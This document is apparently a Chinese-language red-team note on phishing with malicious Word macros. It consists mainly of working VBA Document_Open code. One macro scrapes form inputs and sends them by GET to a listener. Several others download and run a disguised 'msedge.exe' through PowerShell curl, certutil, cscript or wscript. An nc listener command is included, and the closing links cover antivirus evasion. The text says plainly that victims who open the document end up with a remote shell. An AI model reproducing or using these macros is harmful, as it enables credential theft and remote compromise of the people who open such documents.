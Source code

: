 # VBA宏

> [【钓鱼从入门到放弃】-Docx远程模版加载宏代码 (atsud0.me)](https://atsud0.me/2022/01/【钓鱼从入门到放弃】-Docx远程模版加载宏代码/)

- [渗透测试-地基钓鱼篇-Word文档注入执行恶意宏（二十四）_渗透测试中,office宏执行方法利用-CSDN博客](https://blog.csdn.net/qq_34801745/article/details/111307768)

---

## 执行 JavaScript

1. 新建启用宏的 word 文档 `VBA_JS.docm`

2. 在 Word 中编辑宏脚本

3. 在“工程 – Project”窗口中，双击“Microsoft Word 对象”，再双击“ThisDocument”。

4. 此时在右侧代码窗口顶部，会看到两个列表框，单击左侧下拉列表，将其从“（通用）”更改为“Document”，单击右侧下拉列表，从列表中选择“Close”或“Open”以插入 Document_Close()或 Document_Open()过程，或者可直接在代码窗口输入过程名。

5. 在代码框中输入代码，例如获取自动填充的密码并回传数据

```vbscript
Private Sub Document_Open()

Dim oBrowser As Object
Set oBrowser = CreateObject("InternetExplorer.Application")

'打开网页
oBrowser.Visible = True
oBrowser.Navigate "https://xx.xx.xx"

'等待页面加载完成
Do While oBrowser.ReadyState <> 4
    DoEvents
Loop

'执行 JavaScript 获取输入框的信息并通过 get 请求  http://127.0.0.1:8000?data=xxx 传输
oBrowser.Document.parentWindow.execScript "var inputElements = document.querySelectorAll('.el-input__inner');", "JavaScript"
oBrowser.Document.parentWindow.execScript "var data = ''; for (var i = 0; i < inputElements.length; i++) { data += inputElements[i].value + ' '; }", "JavaScript"
oBrowser.Document.parentWindow.execScript "var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://127.0.0.1:8000" & "?data=' + data, true); xhr.send();", "JavaScript"
'关闭浏览器
oBrowser.Quit
Set oBrowser = Nothing

End Sub
```

```vbscript
Private Sub Document_Open()

Dim oBrowser As Object
Set oBrowser = CreateObject("InternetExplorer.Application")
oBrowser.Visible = True
oBrowser.Navigate "http://100.1.1.131:8000"
Do While oBrowser.ReadyState <> 4
    DoEvents
Loop
'执行 JavaScript 获取输入框的信息并通过 get 请求  http://100.1.1.131:8000?data=xxx 传输
oBrowser.Document.parentWindow.execScript "var inputElements = document.querySelectorAll('.el-input__inner');", "JavaScript"
oBrowser.Document.parentWindow.execScript "var data = ''; for (var i = 0; i < inputElements.length; i++) { data += inputElements[i].value + ' '; }", "JavaScript"
oBrowser.Document.parentWindow.execScript "var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://100.1.1.131:8000" & "?data=' + data, true); xhr.send();", "JavaScript"
'关闭浏览器
oBrowser.Quit
Set oBrowser = Nothing

End Sub

```

![image-20240626165022773](http://cdn.ayusummer233.top/DailyNotes/202406261650962.png)

当用户打开这个 word 文档则会调起浏览器执行 JS 收集信息并向远程服务器发送信息

![image-20240626165255860](http://cdn.ayusummer233.top/DailyNotes/202406261652002.png)

> PS: 示例收集数据信息为空

---

## 调Powershell

```vbscript
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub
```

打开该文档机器实现 shell 上线

```bash
nc -lvvp 65521 | while read line; do echo "$(date '+%Y-%m-%d %H:%M:%S') $line";done
```

![image-20240626165505178](http://cdn.ayusummer233.top/DailyNotes/202406261655301.png)

---

## 调Certutil

```vbscript
Private Sub Document_Open()
Call Shell(Environ$("COMSPEC") & " /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe && msedge.exe", vbNormalFocus)
End Sub
```

![image-20240626165543364](http://cdn.ayusummer233.top/DailyNotes/202406261655545.png)

受害者打开此文档后会下载恶意程序并上线 shell

![image-20240626165556298](http://cdn.ayusummer233.top/DailyNotes/202406261656785.png)

![image-20240626165641767](http://cdn.ayusummer233.top/DailyNotes/202406261656847.png)

---

## 调CScript调JSCript/VBScript

```vbscript
Private Sub Document_Open()

    Open "art.jse" For Output As #1
    Print #1, "var url = 'http://100.1.1.131:8000/download/msedge.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);"
    Close #1
    Shell "cscript.exe art.jse"

End Sub
```

受害者打开该文件会下载并上线 shell

![image-20240626170250843](http://cdn.ayusummer233.top/DailyNotes/202406261702961.png)

---

## 调WScript调JSCript/VBScript

```vbscript
Private Sub Document_Open()

    Open "de.vbs" For Output As #1
    Print #1, "Set xmlHttp = CreateObject(""MSXML2.XMLHTTP"") : Set adodbStream = CreateObject(""ADODB.Stream"") : url = ""http://100.1.1.131:8000/download/msedge.exe"" : username = CreateObject(""WScript.Network"").UserName : savePath = ""C:\\Users\\"" + username + ""\\AppData\\Local\\Temp\\msedge.exe"" : xmlHttp.Open ""GET"", url, False : xmlHttp.Send : If xmlHttp.Status = 200 Then adodbStream.Type = 1 : adodbStream.Open : adodbStream.Write xmlHttp.ResponseBody : adodbStream.SaveToFile savePath, 2 : adodbStream.Close : Set shell = CreateObject(""WScript.Shell"") : shell.Run savePath, 1, False Else WScript.Echo ""下载失败，状态代码："" & xmlHttp.Status End If : Set adodbStream = Nothing : Set xmlHttp = Nothing : Set shell = Nothing"
    Close #1
    Shell "wscript.exe de.vbs"

End Sub
```

受害者打开该文件会下载并上线 shell

![image-20240626170340011](http://cdn.ayusummer233.top/DailyNotes/202406261703093.png)

---

## 宏免杀

> [cobal strike 钓鱼----word宏木马（免杀） - 江楠O_O - 博客园 (cnblogs.com)](https://www.cnblogs.com/nanjiangyue/p/14009407.html)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [干货 | Office文档钓鱼之如何快速进行宏免杀 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247502110&idx=1&sn=2442cfc935de67607f986140e8c8ad4e&chksm=ec1c9c21db6b1537dc321bd939da8cc3bfe5917245867bf666ae0d9764c950cd510973bb067b&mpshare=1&scene=23&srcid=1208ExmPmeeluOtedlykpzwj&sharer_sharetime=1638967527162&sharer_shareid=d6f91fc924ad833bb5231d972b990ef9#rd)
>
> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)

---







